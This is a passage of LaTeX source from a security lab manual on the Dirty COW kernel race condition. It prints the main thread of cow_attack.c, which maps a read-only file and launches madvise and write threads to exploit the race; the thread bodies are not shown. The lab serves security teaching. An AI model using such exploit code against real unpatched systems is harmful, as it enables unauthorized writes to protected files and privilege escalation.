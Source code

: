 \subsection{Set Up the Memory Mapping Thread}


You can download the program \texttt{cow\_attack.c} from the
website of the lab. The program has three threads: the main thread, the write thread,
and the madvise thread. 
The main thread maps \texttt{/zzz} to memory, finds where the pattern
\texttt{"222222"} is, and then creates two threads to exploit the 
Dirty COW race condition vulnerability in the OS kernel. 

\begin{lstlisting}[caption={The main thread},
                   label=cow:code:cow_attack:main]
/* cow_attack.c  (the main thread) */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                         (*@\ding{192}@*)

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); (*@\ding{193}@*)
  pthread_create(&pth2, NULL, writeThread, position);             (*@\ding{194}@*)

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

\end{lstlisting}


In the above code, we need to find where the pattern \texttt{"222222"}is. We
use a string function called \texttt{strstr()} to find where \texttt{"222222"}
is in the mapped memory~(Line~). We then start two threads:
\texttt{madviseThread}~(Line~) and
\texttt{writeThread}~(Line~).



